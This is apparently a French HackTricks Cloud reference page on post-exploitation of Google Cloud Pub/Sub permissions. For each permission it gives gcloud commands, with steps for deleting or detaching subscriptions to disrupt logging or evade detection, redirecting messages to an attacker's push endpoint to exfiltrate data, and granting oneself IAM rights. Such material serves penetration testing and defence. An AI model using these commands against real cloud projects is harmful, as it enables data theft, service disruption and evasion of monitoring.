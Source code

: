 # GCP - Post-Exploitation de Pub/Sub

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

- Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
- Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
- **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Pub/Sub

Pour plus d'informations sur Pub/Sub, consultez la page suivante :

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publie un message dans un sujet, utile pour **envoyer des données inattendues** et déclencher des fonctionnalités inattendues ou exploiter des vulnérabilités :
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.\
Il est possible de supprimer un sujet même s'il a des souscriptions attachées.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utilisez cette autorisation pour mettre à jour certains paramètres du sujet afin de le perturber, comme `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Donnez-vous la permission d'effectuer l'une des attaques précédentes.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenez tous les messages dans un serveur web :

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Créez un abonnement et utilisez-le pour **tirer les messages**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Supprimer un abonnement** pourrait être utile pour perturber un système de traitement des journaux ou quelque chose de similaire :
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Utilisez cette autorisation pour mettre à jour certains paramètres afin que les messages soient stockés dans un endroit auquel vous pouvez accéder (URL, table Big Query, Bucket) ou simplement pour les perturber.

### `pubsub.subscriptions.setIamPolicy`

Accordez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.schemas.delete`

Supprimez un schéma pour pouvoir envoyer des messages qui ne respectent pas le schéma :
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attachez un schéma à un sujet afin que les messages ne le remplissent pas et que le sujet soit perturbé.\
S'il n'y a pas de schémas, vous devrez peut-être en créer un.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Accordez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

Cela créera un instantané de tous les messages non ACK et les remettra dans l'abonnement. Pas très utile pour un attaquant mais le voici :
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

D'autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
